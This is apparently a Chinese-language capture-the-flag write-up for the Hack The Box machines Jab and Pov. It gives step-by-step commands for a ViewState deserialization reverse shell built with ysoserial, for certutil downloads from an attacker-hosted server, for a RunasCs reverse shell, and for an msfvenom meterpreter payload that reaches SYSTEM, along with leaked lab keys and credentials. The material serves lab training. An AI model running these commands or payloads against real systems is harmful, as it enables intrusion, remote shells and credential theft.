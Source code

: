 # [HTB]Jab #DCOM #AS-REP
- **初始侦察**：使用**nmap**扫描发现开放端口88、445和5222。
- **SMB尝试**：尝试使用**smbclient**和**crackmapexec**检查共享文件夹，但遇到错误。
- **Jabber/XMPP服务**：发现运行着**Jabber**和**XMPP**聊天服务。
- **Pidgin客户端**：通过**Pidgin**客户端连接到XMPP服务并注册账户。
- **用户搜索**：利用Pidgin的用户搜索功能，通过输入星号(*)进行高级搜索，获取用户列表。
- **AS-REP Roasting**：使用**Impacket**工具中的**GetNPUsers.py**进行AS-REP Roasting获取用户哈希。***\*None PreAuth Users***
- **密码破解**：使用**john**或**hashcat**结合**rockyou.txt**字典文件破解哈希。
- **远程连接**：使用获取的凭证通过**dcomexec.py**工具建立远程连接。***\*DCOM组件利用***
- **漏洞利用**：利用CVE-2023–32315漏洞，通过上传恶意**.jar**文件到Openfire admin console实现远程代码执行（RCE）。
- **端口转发**：使用**Chisel**设置端口转发以访问本地端口9090和9091。***\*Chisel的使用***
- **获取根权限**：通过Openfire admin console的RCE获取系统（root）权限，并查看root.txt文件。
# [HTB]Pov #\.Net反序列化
```Credential
alaading
f8gQ8fynP44ek1m3
```
## Enumeration and Analysis 枚举和分析

### Nmap
让我们使用以下命令运行一个简单的 Nmap 扫描：
```bash
nmap -sC -sV IP
```

### Directory Enumeration 目录枚举
让我们使用以下命令进行目录枚举：
```bash
dirsearch -u clicker.htb -e*
```
或者
```bash
gobuster dir -u http://pov.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
我们没有发现任何有趣的东西。

### Subdomain Enumeration 子域枚举
让我们使用以下命令执行 DNS 枚举：
```bash
gobuster dns -d clicker.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 20
```
但是我们在扫描中没有发现任何有趣的东西。

## Initial Foothold 初始立足点

### Port — 80 端口 — 80
在枚举 http://pov.htb 时，我们在页脚中找到了用户名和子域 http://dev.pov.htb 。

让我们将其添加到主机并检查它。此外，在 http://dev.pov.htb 上，还有一个文件下载选项。

Upon intercepting that request, we can see a list of parameters like below:

```plaintext
__EVENTTARGET=download&
__EVENTARGUMENT=&
__VIEWSTATE=DY%2FikU7FyXJZCW0op4Kz6Bgqd4o%2FFtEfEsiowrOTlRKwk96TfCKJt6cwtTy82KRl93H2SNf4FCvmzZuhMaKfKMCbzZg%3D&
__VIEWSTATEGENERATOR=8E0F0FA3&
__EVENTVALIDATION=eGOIJz%2BJA4RbAfYNdIjP%2FXmYDtUaz97UabMUsYu%2Bg8ppRuevK%2FWEufVY9E0M8KqssT57LzrVSlgu%2FzTmjoojoiS270xt9sBSLasZ2CSk2sh4uF3oBk9hMWE%2FILb9D20b1kQDEA%3D%3D
&file=cv.pdf
```

我们可以尝试将文件名从“cv.pdf”更改为另一个敏感文件名。当我们将文件名更改为“/web.config”时，我们会收到以下响应：

```xml
<configuration>
  <system.web>
    <customErrors mode="On" defaultRedirect="default.aspx" />
    <httpRuntime targetFramework="4.5" />
    <machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
  </system.web>
    <system.webServer>
        <httpErrors>
            <remove statusCode="403" subStatusCode="-1" />
            <error statusCode="403" prefixLanguageFilePath="" path="http://dev.pov.htb:8080/portfolio" responseMode="Redirect" />
        </httpErrors>
        <httpRedirect enabled="true" destination="http://dev.pov.htb/portfolio" exactDestination="false" childOnly="true" />
    </system.webServer>
</configuration>
```

## User.txt 用户文档

经过研究，我找到了一种利用这个漏洞的方法。

首先，我们需要使用以下命令创建有效负载：

```bash
python3 Reverse_Shell_for_Power_Shell.py IP 4444
```

打开 Windows 虚拟机，从 [链接] 下载ysoserial.exe，使用命令提示符导航到该文件夹，按以下语法粘贴有效负载，然后按 Enter。

```plaintext
ysoserial.exe -p ViewState -g TextFormattingRunProperties --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio/default.aspx" -c "Paste_the_payload_here"
```

现在，单击 http://dev.pov.htb 上的“下载简历”按钮，捕获请求，粘贴我们之前为“__VIEWSTATE”参数创建的代码，然后发送请求。

如果您正确完成了所有操作，您将收到一个连接。

我们现在处于“sfitz”的外壳中。我在 sfitz 的 Documents 文件夹中发现了一个有趣的文件，其中包含特权用户“alaading”的密码。

使用以下命令获取该密码：

```plaintext
echo > pass.txt
$EncryptedString = Get-Content .\pass.txt
$SecureString = ConvertTo-SecureString $EncryptedString
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString
echo $Credential.GetNetworkCredential().password
```

下载“RunasCs.exe”，“psgetsys.ps1”和“EnableAllTokenPrivs.ps1”。

打开下载文件夹中的终端，然后键入以下命令以启动HTTP服务器，以将文件从我们的机器传输到Windows：

```bash
python3 -m http.server
```

该文件的链接类似于 http：//YOUR_IP：8000/filename。现在，使用以下命令在受害计算机上下载文件：

```plaintext
certutil.exe -

urlcache -split -f "http://IP:8000/EnableAllTokenPrivs.ps1" ".\EnableAllTokenPrivs.ps1"
certutil.exe -urlcache -split -f "http://IP:8000/psgetsys.ps1" ".\psgetsys.ps1"
certutil.exe -urlcache -split -f "http://IP:8000/RunasCs.exe" ".\RunasCs.exe"
```

现在，在您的计算机上启动侦听器，并在受害计算机上键入以下命令，以使用提供的凭据访问 Alaading 的帐户：

```plaintext
.\RunasCs.exe alaading f8gQ8fynP44ek1m3 cmd.exe -r YOUR_IP:4444
```

使用以下命令查看标志或手动将目录更改为 alaading 的目录：

```plaintext
type C:\Users\alaading\Desktop\user.txt
```

## Privilege Escalation 权限提升

如果我们键入“whoami /priv”，我们可以看到“sedebugPrivilegePoC”权限已被禁用。若要启用此权限的状态，请导航到目录并使用以下命令执行我们在上一节中下载的脚本：

```plaintext
.\psgetsys.ps1
.\EnableAllTokenPrivs.ps1
```

在计算机上，使用以下命令创建 Windows 有效负载：

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=5555 -f exe > exploit.exe
```

将“exploit.exe”移动到我们托管 HTTP 服务器的目录，并使用上述技术将文件发送到受害计算机。在您的机器上配置 Meterpreter，并在受害机器上运行“exploit.exe”。

键入“ps”并找到“winlogon.exe”的 PID。然后键入“migrate PID_VALUE”，然后键入“shell”。现在，您可以以“nt authority\system”的身份访问。

使用以下命令查看标志或手动将目录更改为管理员的目录：

```plaintext
type C:\Users\Administrator\Desktop\root.txt
```

我们已获得管理员标志。